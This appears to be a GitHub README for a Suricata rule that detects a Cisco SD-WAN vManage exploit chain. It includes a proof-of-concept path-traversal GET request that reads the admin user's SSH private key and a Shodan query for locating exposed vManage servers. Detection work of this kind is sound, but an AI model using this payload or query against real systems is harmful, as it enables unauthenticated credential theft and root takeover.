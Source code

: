 ## Overview
A chain of CVE-2020-26073 (path traversal), CVE-2020-27129 (command injection), and CVE-2020-26074 (suid privilege escalation) could lead to unauthenticated remote code execution with root privilege on Cisco SD-WAN vManage.

CVE-2020-26073 is the most important part of the exploit chain because it allows attackers to get the SSH private key of the user vmanage-admin on the target server without authenticating.

So, detecting the payload of CVE-2020-26073 is enough to detect the whole exploit chain. In my Suricata rule, I try to capture the HTTP GET request with the strings "/dataservice/disasterrecovery/download/token/" and "%2e%2e" in the URL.

### Bonus for bug bounty hunters
Search for Cisco SD-WAN vManage on Shodan:
**http.title:"Cisco vManage"**

## Proof of Concept
* CVE-2020-26073:
```
GET /dataservice/disasterrecovery/download/token/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Fetc%2Fviptela%2F.ssh%2Fid_dsa HTTP/1.1
Host: example.com
User-Agent: curl/7.47.0
Accept: */*
Connection: close
```

## References
* https://medium.com/realmodelabs/sd-pwn-part-3-cisco-vmanage-another-day-another-network-takeover-15731a4d75b7
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-vman-traversal-hQh24tmk
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-vmanage-privilege-zPmMf73k
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-vmanage-escalation-Jhqs5Skf